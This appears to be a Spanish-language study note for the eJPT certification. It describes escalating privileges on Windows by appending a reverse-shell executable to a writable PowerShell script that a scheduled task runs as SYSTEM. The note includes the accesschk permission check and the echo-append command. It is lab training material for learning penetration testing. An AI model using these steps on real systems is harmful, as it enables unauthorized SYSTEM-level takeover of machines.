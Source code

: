 
- Ver el contenido del script C:\DevTools\CleanUp.ps1:

```
type C:\DevTools\CleanUp.ps1
```

- El script parece estar ejecutándose como SYSTEM cada minuto. Usando accesschk.exe, tenga en cuenta que tiene la capacidad de escribir en este archivo:

```
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

- Inicie un oyente en Kali y luego agregue una línea al C:\DevTools\CleanUp.ps1 que ejecuta el ejecutable reverse.exe que creó:

```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

- Espere a que se ejecute la Tarea Programada, que debería activar el shell inverso como SYSTEM.

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Generate a Reverse Shell Executable]]